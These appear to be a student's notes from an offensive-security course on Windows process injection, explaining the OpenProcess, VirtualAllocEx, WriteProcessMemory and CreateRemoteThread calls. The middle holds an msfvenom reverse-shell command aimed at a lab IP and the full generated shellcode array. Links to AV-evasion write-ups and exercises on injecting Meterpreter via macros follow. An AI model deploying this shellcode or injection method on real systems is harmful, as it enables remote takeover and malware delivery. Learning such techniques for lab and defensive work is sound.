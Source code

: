 http://www.pinvoke.net/

page - 131

# Process Injection and migration

We are going to inject our shellcode to various processses to make it work.

# finding a home for shellcode 

We can run our shellcode either in an unlikely to terminate process like explorer.exe 
or start a hidden process notepad.exe
or we migrate to a process like svchost.exe

# process injection and migration theory

Process vs thread

A process has its own virtual memory space, and this space isnot meant to directly interact with other applications.

Thread executes the compiled assembly code of an application. Each thread has its own memory stack.


We will try to open one process from another using Win32 OpenProcess API.

We will modify its memory space using VirtualAllocEx, and WriteProcessMemory and start process with CreateRemoteThread.

### intptr

intptr are intermediate data types that can be used as a standby for point ot int. so used in handles.

### Openprocess API 

opens an existing process and needs 3 parameters. dwDesiredAccess establishes the access rights we require on that process. bInheritHandle - this determines if the handle can be inherited by a child process. dwProcessId - This is the process Id of the remote process.

Integrity level concept: We can access a process with lower integrity level from a higher intergrity level.

![](notepad_permissions.png)

VirtualAllocEx - this is used to allocate memory to our shellcode to a remote process

# process injection in C#

gives in detail how to look for functions in pinvoke.net.

```c#
LPVOID VirtualAllocEx(
 HANDLE hProcess, // handle to process
 LPVOID lpAddress, // starting address of memory to wrtie our injected instructions
if the address mentioned is already in use then execution will fail so better to pass NULL
 SIZE_T dwSize, // size of allocation we will set as 0x1000
 DWORD flAllocationType,// MEM_COMMIT and MEM_RESERVE 0x3000
 DWORD flProtect // 0x40 PAGE_EXECUTE_READWRITE
)
```

### WriteProcessMemory

WriteProcessMemory - We can copy data to remote process. (RTLMoveMemory doesn't support this.)


```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(
     IntPtr hProcess,// process handle
     IntPtr lpBaseAddress,/// newly allocated memory address 
     byte[] lpBuffer,// address of bytearray containing the shell code
     Int32 nSize,// size of shellcode
     out IntPtr lpNumberOfBytesWritten // a pointers to memory localtion to output how much data was copied
);
```

Notice that the out252 keyword was prepended to the outSize variable to have it passed by 
reference instead of value. This ensures that the argument type aligns with the function 
prototype

to get shellcode use msfvenom given below

### CreateRemoteThread

CreateRemoteThread - as we cannot just call CreateThread.

```C#
HANDLE CreateRemoteThread(
 HANDLE hProcess, // process handle
 LPSECURITY_ATTRIBUTES lpThreadAttributes, // IntPtr.Zero for default values
 SIZE_T dwStackSize, // allowed stack size can be 0
 LPTHREAD_START_ROUTINE lpStartAddress, // start address of a thread
 LPVOID lpParameter, // pointer to variables that will be passed to the thread can be nill
 DWORD dwCreationFlags, // ignore 0
 LPDWORD lpThreadId // ignore IntPtr.Zero
)
```



### creating a code based injection


```C#
└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.6.221 LPORT=4444 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of csharp file: 2362 bytes
byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5c,0x0a,0x0a,0x06,0xdd,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };

```

Using mingw compiler https://www.msys2.org/


https://code.visualstudio.com/docs/cpp/config-mingw#:~:text=From%20the%20main%20menu%2C%20choose%20Run%20%3E%20Add%20Configuration..,build%20and%20debug%20active%20file. 

cttrl + shift + b - to build

with the pe injection it works from here - 

https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

scan result 5/26

Trying to evade the AV we have - https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/

### 5.1.2.1 Exercises
1. Replicate the steps and inject a reverse Meterpreter shell into the explorer.exe process.

2. Modify the code of the ExampleAssembly project in DotNetToJscript to create a Jscript file 
that executes the shellcode inside explorer.exe. Instead of hardcoding the process ID, which 
cannot be known remotely, use the Process.GetProcessByName255 method to resolve it 
dynamically.

3. Port the code from C# to PowerShell to allow process injection and shellcode execution 
from a Word macro through PowerShell. Remember that PowerShell is started as 32-bit, so 
instead of injecting into explorer.exe, start a 32-bit process such as Notepad and inject into 
that instead.

### 5.1.2.2 Extra Mile

Process injection with VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread is 
considered a standard technique, but there are a few others to consider.
The low-level native APIs NtCreateSection, NtMapViewOfSection, NtUnMapViewOfSection, and 
NtClose in ntdll.dll can be used as alternatives to VirtualAllocEx and WriteProcessMemory.
Create C# code that performs process injection using the four new APIs instead of VirtualAllocEx
and WriteProcessMemory. Convert the code to Jscript with DotNetToJscript. Note that 
CreateRemoteThread must still be used to execute the shellcode






